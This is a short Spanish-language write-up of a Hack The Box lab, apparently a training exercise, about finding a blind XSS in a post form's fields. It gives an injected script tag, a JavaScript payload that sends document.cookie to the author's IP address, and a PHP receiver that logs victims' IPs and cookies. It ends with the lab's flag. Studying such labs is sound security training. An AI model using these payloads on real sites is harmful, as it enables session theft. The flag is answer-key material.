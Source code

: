 Navegamos hasta el primer Post donde se nos muestran los siguientes campos
![[Pasted image 20250128225822.png]]
Probamos todos los campos menos el de email (requiere un email valido, por lo que significa que el email es comprobado en el backend, y no es vulnerable a XSS) con el siguiente codigo

"><script src="http://10.10.14.193:8080/{campo a probar}"></script>

![[Pasted image 20250128230014.png]]

lo que nos muestra que el script se ejecuta correctamente en el campo website(a la hora de probar i forgot to cambiar la extension en el campo web jasdjsadj), vamos a proceder a reutilizar el script del apartado 8

**Script.js**

``` javascript

document.location='http://10.10.14.193:8080/index.php?c='+document.cookie;
new Image().src='http://10.10.14.193:8080/index.php?c='+document.cookie;
```

**index.php**

``` php

<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

```

Ejecutamos en el campo username

`"><script src="http://10.10.14.193:8080/script.js"></script>`

![[Pasted image 20250128230530.png]]

observamos que el script se ha ejecutado correctamente, hacemos un cat a cookies.txt y vemos la  **flag=HTB{cr055_5173_5cr1p71n6_n1nj4}**
